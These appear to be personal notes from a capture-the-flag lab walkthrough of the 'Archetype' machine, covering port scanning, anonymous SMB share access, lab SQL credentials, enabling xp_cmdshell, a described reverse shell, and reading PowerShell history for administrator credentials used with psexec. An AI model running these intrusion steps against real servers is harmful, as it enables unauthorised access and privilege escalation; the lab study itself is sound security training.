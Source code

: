 - nmap it
	- 135: msrpc
	- 139: netbios-ssn
	- 445: Microsoft Server 2008 
		- likely vulnerable Samba
		- add `nmap --script smb-os-discovery <ip>`
			- => Computer name: Archetype
	- 1433: SQL server 2017 14.00.1000
		- CVEs: CVE-2021-1636, CVE-2019-1068, CVE-2019-0819
	- 

- smb
	- `smbclient -N -L //<IP>/`
		- list (-L) directories with no password (-N)
			- ADMINS\$ -> nothing
			- backups 
				- -> can sign in - backup file
					- `get <FILE> <>`
					- Username: `ARCHETYPE\sql_svc` 
					- Password: `M3g4c0rp123` 
					- Provider SQL
			- C\$ -> nothing
			- IPC\$ -> nothing

- SQL
	- connect to SQL: `mssqlclient ARCHETYPE\sql_svc:M3g4c0rp123@<IP> -windows-auth`
	- set up xp_cmdshell
		- ```
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;  
			sp_configure;  
			EXEC sp_configure 'xp_cmdshell', 1  
			reconfigure;  
			xp_cmdshell "whoami"
		- run each on their own line
	- make shell.ps1 Powershell reverse shell script
	- run Python server
	- set up listerer
	- get access to the machine
		- find user flag in `C:\Users\sql_svc\Desktop`

- privilege escalation
	- check frequently access/execute file:
		- `type    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
		- -> `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!! `
		- Administrator: `Administrator`
		- Password: `MEGACORP_4dm1n!!`

- sign in to machine as Administrator
	- `psexec.py administrator@<IP>`
	- get Administrator's flag in `C:\Users\Administrator\Desktop`